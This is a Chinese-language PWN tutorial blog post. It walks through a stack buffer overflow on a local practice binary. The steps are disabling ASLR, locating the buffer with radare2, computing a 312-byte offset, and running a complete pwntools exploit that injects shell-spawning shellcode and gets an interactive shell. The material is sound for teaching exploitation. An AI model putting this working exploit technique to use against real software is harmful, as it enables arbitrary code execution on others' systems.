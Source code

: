 ```yaml
---
title: shellcode
subtitle: 运行你自己的指令
date: 2023-08-08T05:09:08+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


在真正的漏洞利用中，你不太可能拥有 `win()` 函数。shellcode 是一种允许 **运行你自己的
指令** 的方法，使你能够在系统上运行任意命令。

**shellcode** 本质上是 **一系列汇编指令**，一旦我们将它输入到二进制文件中，它就会覆盖返回
地址（返回指针）以劫持代码，并执行我们自己的指令。

<!--more-->

{{<admonition type="warning">}}

我保证你可以相信我，但你永远不应该在不知道 shellcode 作用的情况下运行它。
pwntools 很安全，并且几乎拥有你需要的所有 shellcode 。

{{</admonition>}}

shellcode 成功的原因是 [冯·诺伊曼结构](https://zh.wikipedia.org/wiki/%E5%86%AF%C2%B7%E8%AF%BA%E4%BC%8A%E6%9B%BC%E7%BB%93%E6%9E%84)（当今大多数计算机使用的体系结构）不区分
数据和指令——无论你告诉它在哪里运行或运行什么内容，它都会尝试运行它。因此，
即使我们输入的是攻击指令，计算机也不知道这一点，我们可以利用它来发挥我们的优势。

{{< link href="/pwn_assets/shellcode.zip" content="shellcode.zip" title="Download shellcode.zip" download="shellcode.zip" card=true >}}

## 0x01 禁用 ASLR

ASLR 是一种安全技术，虽然它不是专门为对抗 shellcode 而设计的，但它涉及随机化
内存的某些方面（我们稍后将更详细地讨论它）。这种随机化可能会使我们的 shellcode
变得不可靠，所以我们现在将 [禁用](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) 它。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

{{<admonition type="info">}}

类似这样的功能性指令以后还会碰到更多，我建议使用 `alias` 为它们创建一个别名。
因为就算不考虑能不能记住这些指令，如果每次都手动输入那么长的指令也是一件很
浪费时间的事情。

{{</admonition>}}

{{<admonition type="warning">}}

再次强调，如果你不知道指令的作用，则永远不要运行该指令。

{{</admonition>}}

## 0x02 确定缓冲区位置

使用 `radare2` 调试 `vuln()` ，并找出缓冲区在内存中的起始位置；这就是我们
想要将返回地址指向的位置。

```bash
$ r2 -d -A ./vuln

[0xf7fe3fd0]> s sym.unsafe; pdf
[...]
; var int32_t var_134h @ ebp-0x134
[...]
```

打印出来的这个值是一个 **局部变量**。根据它的大小，可以判断出它很可能是缓冲区。
让我们在 `gets()` 之后设置一个断点并找到确切的返回地址。

```bash
[0x08049172]> db 0x080491a8
[0x08049172]> dc
Overflow me
<<IM HERE>>         <== This was my input
INFO: hit breakpoint at: 0x80491a8
[0x080491a8]> px @ ebp-0x134
- offset -  B4B5 B6B7 B8B9 BABB BCBD BEBF C0C1 C2C3  456789ABCDEF0123
0xffffd6b4  3c3c 494d 2048 4552 453e 3e00 2e4e 3df6  <<IM HERE>>..N=.
[...]
```

它似乎位于 `0xffffd6b4`；如果我们多次运行二进制文件，它应该保持在原来的位置
（如果没有，请确保 **禁用 ASLR！**）。

## 0x03 计算溢出 Padding

现在我们需要计算溢出 Padding 。我们将使用 De Bruijn 序列，如上一篇博客文章中所述。

```bash
$ ragg2 -r -P 500
<COPY THIS>

$ r2 -d -A ./vuln
[0xf7fe3fd0]> dc
Overflow me
<<PASTE HERE>>
[0x73424172]> wopO `dr eip`
312
```

得到溢出 Padding 是 312 字节。

## 0x04 编写 EXP

为了使 shellcode 正确，我们将把 `context.binary` 设置为我们的二进制文件；
这会获取诸如架构、操作系统和位数之类的东西，并使 pwntools 能够为我们提供
shellcode 。

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()
```

{{<admonition type="info">}}

我们可以只使用 `process()` ，因为一旦设置了 `context.binary` 就默认假定
使用该进程。

{{</admonition>}}

现在我们可以使用 pwntools 出色的 shellcode 功能轻易的构建 shellcode 。

```python
# 构建 Shellcode
payload = asm(shellcraft.sh())
# 溢出 Padding
payload = payload.ljust(312, b'A')
# 返回地址
payload += p32(0xffffd6b4)
```

现在让我们将其发送出去并使用 `p.interactive()`，它使我们能够与 shell 通信。

```python
log.info(p.clean())

p.sendline(payload)

p.interactive()
```

{{<admonition type="warning">}}

如果你收到 `EOFError`，请打印出 shellcode 并尝试在内存中查找它。
栈地址可能是错误的。

你可以参考这篇 [博客](https://www.cubeyond.net/ret2win/) 中的方法来解决这个问题。

{{</admonition>}}

```bash
$ python3 exp.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 3903
[*] Overflow me
[*] Switching to interactive mode
$ whoami
cub3y0nd
$ ls
exp.py  source.c  vuln
```

## 0x05 最终 EXP

```python {title="exp.py"}
from pwn import *

context.binary = ELF('./vuln')

p = process()

# 构建 shellcode
payload = asm(shellcraft.sh())
# 溢出 Padding
payload = payload.ljust(312, b'A')
# 返回地址
payload += p32(0xffffd6b4)

log.info(p.clean())

p.sendline(payload)

p.interactive()
```

## 0x06 总结

- 当提示输入时，我们注入了 shellcode
- 然后，我们通过覆盖栈上保存的返回地址以指向我们的 shellcode
来劫持代码执行
- 一旦返回地址压入 EIP 中，它就指向我们的 shellcode
- 这导致程序执行我们的指令，为我们（在本例中）提供了用于执行
任意命令的 shell
